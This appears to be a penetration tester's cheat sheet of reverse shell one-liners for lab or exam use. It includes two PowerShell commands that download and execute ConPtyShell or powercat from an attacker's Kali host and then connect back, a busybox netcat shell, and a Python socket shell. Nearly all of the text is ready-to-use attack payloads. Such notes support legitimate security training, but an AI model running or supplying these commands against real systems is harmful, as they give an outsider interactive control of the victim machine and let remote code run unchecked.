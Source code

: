 ### revshells.com
Try https://revshells.com to generate shells using a given port and IP
- take note to change the shell from `cmd` to `/bin/bash` or whatever as needed

### Solid RCE shell for Windows 1
- https://github.com/antonioCoco/ConPtyShell/blob/master/README.md
`powershell IEX(IWR http://$kaliIP/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell $kaliIP $kaliPort`
- need to be serving InvokeConPtyShell.ps1 from 80

### Solid RCE shell for Windows 2
`IEX(New-Object System.Net.WebClient).DownloadString('http://$kaliIP:$kaliPort/powercat.ps1'); powercat -c $kaliIP -p $kaliPort -e powershell`
- need to be serving powercat.ps1 from 80

### Linux
`busybox nc $kaliIP $kaliPort -e sh`

### Python
Nested quotes:
- `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$kaliIP",$kaliPort));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`